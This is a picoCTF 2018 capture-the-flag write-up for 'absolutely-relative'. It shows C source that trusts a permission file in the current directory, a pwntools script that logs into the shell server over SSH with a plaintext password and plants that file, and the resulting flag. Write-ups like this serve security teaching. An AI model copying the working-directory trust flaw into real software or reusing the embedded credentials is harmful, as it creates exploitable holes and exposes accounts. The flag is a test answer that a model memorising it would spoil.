 # Problem
In a filesystem, everything is relative ¯\_(ツ)_/¯. Can you find a way to get a flag from this [program](https://2018shell1.picoctf.com/static/3a286144f1c251a493c223d6a8ff0a6d/absolutely-relative)? You can find it in /problems/absolutely-relative_0_d4f0f1c47f503378c4bb81981a80a9b6 on the shell server. [Source](https://2018shell1.picoctf.com/static/3a286144f1c251a493c223d6a8ff0a6d/absolutely-relative.c).

## Hints:
Do you have to run the program in the same directory? (⊙.☉)7

Ever used a text editor? Check out the program 'nano'

## Solution:

First, we download the files and observer the source:
```bash
wget https://2018shell1.picoctf.com/static/3a286144f1c251a493c223d6a8ff0a6d/absolutely-relative
wget https://2018shell1.picoctf.com/static/3a286144f1c251a493c223d6a8ff0a6d/absolutely-relative.c
cat ./absolutely-relative.c

#include <stdio.h>
#include <string.h>

#define yes_len 3
const char *yes = "yes";

int main()
{
    char flag[99];
    char permission[10];
    int i;
    FILE * file;


    file = fopen("/problems/absolutely-relative_0_d4f0f1c47f503378c4bb81981a80a9b6/flag.txt" , "r");
    if (file) {
    	while (fscanf(file, "%s", flag)!=EOF)
    	fclose(file);
    }   
	
    file = fopen( "./permission.txt" , "r");
    if (file) {
    	for (i = 0; i < 5; i++){
            fscanf(file, "%s", permission);
        }
        permission[5] = '\0';
        fclose(file);
    }
    
    if (!strncmp(permission, yes, yes_len)) {
        printf("You have the write permissions.\n%s\n", flag);
    } else {
        printf("You do not have sufficient permissions to view the flag.\n");
    }
    
    return 0;
}
```

We see that fhe "permission.txt" file is being read from the current working directory.

We can just create this file in the home directory, write "yes" inside, and execute the program from there.

```python
#!/usr/bin/env python

from pwn import *


user = 'roeesefi'
pw = '123123'

s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)

sh = s.process('echo yes > permission.txt', shell=True)
sh = s.process('/problems/absolutely-relative_0_d4f0f1c47f503378c4bb81981a80a9b6/absolutely-relative')

print sh.recvall()
```

Very easy!

Flag: picoCTF{3v3r1ng_1$_r3l3t1v3_befc0ce1}
